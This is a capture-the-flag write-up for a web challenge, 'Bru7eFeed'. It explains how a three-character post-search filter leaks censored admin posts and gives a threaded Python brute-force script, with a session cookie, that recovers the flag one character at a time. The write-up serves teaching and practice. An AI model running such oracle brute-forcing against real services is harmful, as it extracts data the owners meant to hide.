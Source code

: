 
### Bru7eFeed

![Bru7eFeed](Bru7eFeed.png)

this was a simple and a fun challenge it required some scripting and bruteforcing
we sart by landing in a login page
![Bru7eFeed](Bru7eFeed-login.png)

and a welcome page
![Bru7eFeed](Bru7eFeed-viewposts.png)

after that we some posts from different users and a filter search that takes a 3 char and return anypost that has those 3 charachters
![Bru7eFeed](Bru7eFeed-posts.png)

the source code is given in the challenge description so let's see what's happening there,
we have the posts in dict
![Bru7eFeed](Bru7eFeed-posts-code.png)

and the route that takes the 3 chars and return the posts

![Bru7eFeed](Bru7eFeed-postsroute.png)

but the function censor_posts returns the admins posts in stars
![Bru7eFeed](Bru7eFeed-postsstars.png)

Knowing the flag is stored in an admin post and that the flag uses a known prefix, we can brute-force it. Supply the first two known characters as a prefix and fuzz the unknown third character to discover the rest. we will make a script to autoamte this.

```python
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://192.168.1.9:4001/posts"
cookies = {"session": "eyJ1c2VyIjoibWVtIn0.aMHTJA.gFCmt-LsXh5K_-gYD6fO8uf9XhA"}

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_"

def has_admin(chars: str) -> bool:
    try:
        r = requests.post(url, cookies=cookies, data={"chars": chars}, timeout=5)
        data = r.json()
        return any(p.get("user") == "admin" for p in data)
    except Exception as e:
        print(f"[!] Error with {chars}: {e}")
        return False

flag = "PCT"   # starting prefix
print("[+] Start:", flag)

while True:
    prefix = flag[-2:]   # last two known chars
    found = None

    with ThreadPoolExecutor(max_workers=10) as executor:  # 10 threads
        futures = {executor.submit(has_admin, prefix + c): c for c in charset}

        for future in as_completed(futures):
            c = futures[future]
            if future.result():
                found = c
                break   # stop as soon as we find the right char
```